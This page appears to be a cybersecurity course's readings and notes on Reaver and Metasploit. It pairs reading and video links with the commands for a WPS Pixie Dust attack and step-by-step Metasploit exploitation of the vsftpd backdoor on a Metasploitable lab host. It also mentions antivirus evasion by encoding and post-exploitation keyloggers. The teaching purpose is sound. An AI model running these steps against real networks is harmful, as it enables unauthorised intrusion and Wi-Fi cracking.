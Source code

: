 # Readings and Videos<p>

## Reaver<p>
**Suggested brief reading:** [Offline Bruteforce Attack on Wifi Protected Setup](http://archive.hack.lu/2014/Hacklu2014_offline_bruteforce_attack_on_wps.pdf).<br />
 
 ##### Pixie Dust attack
 
 ![Options](https://comfy.moe/xeuglf.png)
  <p>

  
![The old way](https://www.hackingtutorials.org/wp-content/uploads/2015/06/Wordpress-screen-21-e1433583260536.jpg)
  <p>

`reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -p`    
![With the pixie dust option](https://comfy.moe/hhojvn.jpg)
  <p>
 
 ![With the pixie dust option - result](https://comfy.moe/tyhfos.jpg)
  
<p>
  
## Metasploit<p>

##### n.b. any ebooks are cuny-wide resources but if you have issues with the proxy please search in the JJay OneSearch [here](https://onesearch.cuny.edu/primo-explore/search?vid=jj&mode=advanced&sortby=rank&lang=en_US).<br />
[A Tour of the Metasploit Framework](http://www.ethicalhackx.com/metasploit-framework/).<br />
**Suggested brief reading:** [Metasploit for Beginners](https://www.concise-courses.com/security/metasploit-for-beginners/).<br />
[A Tour of the Metasploit Framework](http://www.ethicalhackx.com/metasploit-framework/).<br />
[Hands on with Metasploit Express (ScienceDirect)](https://doi.org/10.1016/S1353-4858(10)70092-1).<br />
[Instant Metasploit Starter (ProQuest ebook)](https://onesearch.cuny.edu/primo-explore/fulldisplay?docid=TN_ingram_myilibrary9781299802681&context=PC&vid=jj&search_scope=cunywide&tab=cuny_tab&lang=en_US).<br />
[Mastering Metasploit (ProQuest ebook)](https://onesearch.cuny.edu/primo-explore/fulldisplay?docid=TN_ingram_myilibrary9781306823425&context=PC&vid=jj&search_scope=everything&tab=default_tab&lang=en_US).<br />
[SANS Metasploit Cheatsheet](https://www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf).<br />
[Setting up a Metasploit postgresql database](https://www.offensive-security.com/metasploit-unleashed/using-databases/).<p>
<p>


<p>
Youtube: Metasploit for Beginners<br />
  
[![thumbnail from the video](http://img.youtube.com/vi/cnkLv_RE3EI/0.jpg)](https://www.youtube.com/watch?v=cnkLv_RE3EI "MetaSploit tutorial for beginners")<p>
<p>
  

Hak5's Metasploit Minute series<br />
  
[![thumbnail from the video](http://img.youtube.com/vi/NTdthBQYa1k/0.jpg)](https://www.youtube.com/watch?v=NTdthBQYa1k "5 Ways To Get Initial Access - Metasploit Minute")<p>

Hackersploit's Metasploit For Beginners - #1 - The Basics - Modules, Exploits & Payloads<br />
  
[![thumbnail from the video](http://img.youtube.com/vi/8lR27r8Y_ik/0.jpg)](https://www.youtube.com/watch?v=8lR27r8Y_ik "Metasploit For Beginners - #1 - The Basics - Modules, Exploits & Payloads")<p>
<p>
  
  ### Demonstration and Things to Remember<br />
  <br />
  start postgresql before msfconsole<br />
  searching: type and platform<br />
  <p>
  commands:<br />
  
  * search type:exploit platform:windows flash
  * help
  * use exploit/windows/browser/adobe_flash_avm2 (turns red if loaded)
  * show options (customize the attack) and set SRVPORT 80
  
  ANOTHER and BETTER EXAMPLE:
  * use ZenMap to see software running and note network topography
  * db_nmap_status, db_nmap -T4 -A -v metasploitableIP
  * show (gives lots of info)
  * show info (good place to start)
  * show payloads (shows all of the payloads available)
  * show targets
  * search vsftpd
  * use exploit/unix/ftp/vsftpd_234_backdoor
  * info
  * set RHOST 10.______
  * finish with 'check' and 'exploit'
  <p>
  Modules directory:  /usr/share/metasploit-framework<br />
  NOPS for buffer overflows<br />
  Encoding for sneaking through antivirus<br />
  post for further attacks are being pwned (keyloggers, VNC, etc.)<br />
  post/windows/gather <--btc-mining and other scripts<br />
  
  Armitage - GUI for MSF
  
  ezsploit automation
  
### Reconnaisance:<br />
[CTFR](https://github.com/UnaPibaGeek/ctfr)<p>
![CTFR](https://a.pomf.cat/qqtejp.png)
 <p>
 
### Shodan: FREE full membership with a .edu address: 
 ![Shodan](https://a.pomf.cat/tbucxr.png)
 
 Register here: https://account.shodan.io/register and email support@shodan.io from the .edu email.
  
